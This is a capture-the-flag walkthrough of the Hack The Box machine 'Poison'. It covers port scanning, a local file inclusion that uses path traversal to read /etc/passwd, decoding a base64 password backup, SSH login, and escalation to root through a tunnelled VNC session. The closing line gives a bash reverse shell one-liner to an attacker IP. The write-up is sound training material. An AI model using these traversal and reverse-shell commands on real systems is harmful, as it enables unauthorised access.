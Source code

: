 # Poison [HTB](https://app.hackthebox.com/machines/132)
![poison-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/poison-01.png)


## Recon

After adding the target to my `/etc/hosts` file, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 poison.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ports-02.png)


We have two ports. Let's run a version detection scan againts them:

```bash
nmap -p 22,80 -sCV poison.htb -oN nmap.result
```

![namp-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/nmap-res-03.png)


We have the following:

+ An SSH server on port 22.
+ An Apache-2.4.29 server on port 80.

Based on the `nmap` scan we can see that the root directory of the website doesn't have a title, and it seems like the site is powered by PHP 5.6.32. Based on the scan we can also guess that the the target OS is `FreeBSD`.


Let's take a closer look at the Apache server.


## Apache Port 80


If we open the site at `http://poison.htb/` we can see the following:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/site-04.png)


It looks like the site takes a local script as input, runs it locally, and returns the result back to us.


From the available scripts we can see a `listfiles.php` script. Let's run it:

![list-files-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/list-files-05.png)


We can see that the file name argument is sent to the server via the `file` parameter in the URL, this could pose a file inclusion vulerability. 


The response is a PHP array of the local directory listing. In the listing we see two new files that were not present in the main page, `browse.php` and `pwdbackup.txt`. 


If we run `browse.php`, it results in some form of a memory page-fault, perhaps a buffer-overflow:

![browse-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/browse-06.png)


That's interesting, but i'm not sure exactly how to exploit this at the moment. 


If we retrive `pwdbackup.txt` we get the following:

![pwd-backup-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/pwd-backup-07.png)


We have what looks like a few different base64 encoded strings separated by a space character. But the first line of the file says that the password is encoded 13 times. How should we go about decoding this?  


At first I tried decoding each line as a seperate base64 string. This didnt work, as the output from the decoding started to break down and subsequent docoding attempts failed. 


Instead, I concatenated all of the individual strings into one big base64 string and saved it to a file locally. Then I used the following python script to base64 decode it 13 times:


```python
#!/usr/bin/python3

import base64 

with open('pwdbackup.txt', 'rt') as file:
    s = file.read()

for _ in range(13):
    s = base64.b64decode(s)
    s = s.decode('utf-8')

print(s)
```

Which resulted in the following:

![pass-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/pass-08.png)


This looks like a password, the question is what is the username? 


To answer this question I decided to go back to the website's scripting application. We know that we have some form of local file inclusion going on, as the application runs local files and returns the output.


So I decided to test for a local file inclusion vulnerability, specifically, I wanted to include the `/etc/passwd` file which will give us a list of valid usernames on the system. 


So i sent `../../../../etc/passwd` as the file name:

![err-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/err-09.png)


So now we know that the `browse.php` is the script that sources the local files via the `include()` function. We can also see that the application is hardcoded to use files inside the `/usr/local/www/apache24/data` directory which is defined in the `include_path` variable. 


Therefore, we know that we need to go five levels higher in order to reach the root directory. So I added one more `../` into the file path `../../../../../etc/passwd`:

![input-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/input-10.png)


Which returned the file:

![passwd-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/passwd-11.png)


The username was actually in the password. Let's try to login to the ssh:

```bash
ssh charix@poison.htb
```

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/shell-12.png)


Let's move to privilege escalation!


## Privilege Escalation


If we list the content's of our user's home folder we can see the following:

![list-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/list-13.png)


This zip archive (owend by root) looks interesting. If we try to `unzip` it we will notice it is password protected:

![protected-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/protected-14.png)


Let's trasnfer the file to our kali. To do this I start a python web server on the target with:

```bash
python -m SimpleHTTPServer 8000
```

And download the file from my kali using:

```bash
wget http://poison.htb:8000/secret.zip
```

![wget-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/wget-15.png)


Let's try to use the ssh password from before to open it:

![unzip-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/unzip-16.png)


It worked! 


I also ran the `file` program on it to try and identify what type of file this is. It's says its a Non-ISO extended ASCII text file, meaning there are characters outside the ASCII range (byte values ≥128) in the file. 


If we `cat` the file we can see the issue:

![cat-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/cat-17.png)


We can try to guess out the encoding of this file using the `uchardet` program:

```bash
apt install uchardet   # If not installed already
uchardet secret
```

![encoding-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/encoding-18.png)


We can try to convert this string to `utf-8` with:

```bash
iconv -f WINDOWS-1252 -t utf-8 secret
```

![iconv-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/iconv-19.png)


Unfortenatly, it's still doesn't make sense. Perhaps it's encrypted? I decided to put this file to side for now and enumerate the target some more. 


The next thing I did was to look at running processes with `ps auxww`, and that's where I saw somthing interesting:

![ps-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ps-20.png)


Looks like `root` is running a VNC server on `localhost:5901`. VNC is the Virtual Network Computing system and you can read more about it [here](https://en.wikipedia.org/wiki/Virtual_Network_Computing), but in short, it's a remote graphical desktop system, much like RDP for Windows, only VNC is platform independent.


We can verify that the VNC server is running on the target host by listing the open ports as such:

```bash
sockstat -l	# A FreeBSD way of listing open ports
```

![sockstat-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/sockstat-21.png)


There is actually two ports on which the VNC server is running on, but we primarly want to focus on port 5901 because it's owned by root. We can probably guess that the `secret` file we worked on before is the password file for the VNC connection. 


The VNC server is running on the localhost of the target but if we tunnel this traffic to our attack machine we should be able to access it locally. To do that we can use port forwarding as such:

```bash
ssh -N -L 5901:localhost:5901 charix@poison.htb
```  

![forward-22](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/forward-22.png)


After we supply the user's password, the shell window stalls, which is a good sign that the tunnel has been established. We can verify this by listing out the open ports on our attack machine:

![ports-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/ports-23.png)


Nice! If you want a quick and easy cheet sheet for port forwarding cick [here](https://gist.github.com/billautomata/ee0572113e1496a75b03).


Now we should be able to get access to the VNC as the root user with:

```bash
vncviewer -passwd secret localhost::5901
```

![success-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/success-24.png)


Which opens up the following (tiny) window:

![root-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Poison/img/root-25.png)


Although it's hard to read because the font is so small, this is in fact a root shell! 

From here we can run something like `bash -i >& /dev/tcp/10.10.14.58/9001 0>&1` to give ourselfes a proper shell, if we want.  
